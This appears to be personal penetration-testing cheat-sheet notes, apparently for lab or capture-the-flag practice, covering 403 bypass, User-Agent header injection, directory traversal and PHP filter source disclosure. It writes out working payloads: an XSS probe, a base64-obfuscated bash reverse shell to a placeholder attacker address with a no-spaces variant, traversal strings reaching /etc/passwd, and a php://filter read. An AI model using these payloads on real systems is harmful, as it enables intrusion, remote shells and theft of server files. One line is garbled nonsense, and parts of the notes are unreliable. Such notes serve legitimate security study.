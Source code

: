 #### 403 Forbidden Bypass

Refer to 403-forbidden-bypass.sh.

#### Header Injection

- Check if you can inject the following into the User-Agent header:

```bash
<script>alert(42)</script>
# or the following to see if it pings your python http server
<a href="http://192.168.192.121:8000/your-endpoint">Send GET Request</a>
```

If so, try injecting a reverse shell.

```bash
# on your machine, try to remove all special characters through strategic spacing
echo -n 'bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1' | base64
# send the following
echo BASE64_ENCODED_STRING | base64 -d | bash
# or
echo -n "bash -c 'bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1'" | base64
# send the following
echo BASE64_ENCODED_STRING | base64 -d
# or the following if spaces aren't allowed
{echo,-n,**base64 encoded reverse bash shell**}|{base64,-d}|bash
```

#### Directory Traversal

- For directory traversals, try to start with a '/', so "http://192.168.165.43/index.php?p=backup/../../../../../../../../". DO THISS THIS SHTISITHSIT .

- If there's something like "https://example.com/cms/login.php?language=en.html", then try to navigate to the file directly with "https://example.com/cms/en.html". If you can, this confirms that en.html is a file on the server and it may be vulnerable to something like "http://example.com/subdir/index.php?page=../../../../../../../../../etc/passwd"

- Try double and triple encoding, "..././", "..;/", and potentially unicode encoding as referenced in the document below

- Refer to (https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal#16-bits-unicode-encoding) for a whole bunch of awesome payloads, and interesting files to look for on both Windows and Linux. Doesn't include "C:\Windows\System32\drivers\etc\hosts", "C:\inetpub\logs\LogFiles\W3SVC1\\", and "C:\inetpub\wwwroot\web.config"

Try seeing if you can get the php source code:

```bash
https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php
```
I ran into a page that said "Only accessable through includes". This is referring to a header, "include=", where you can include files and possibly execute code.

WHENEVER YOU'RE SENDING A POST REQUEST, INCLUDE THE CONTEXT-TYPE HEADER, like 'Content-Type: application/x-www-form-urlencoded'.
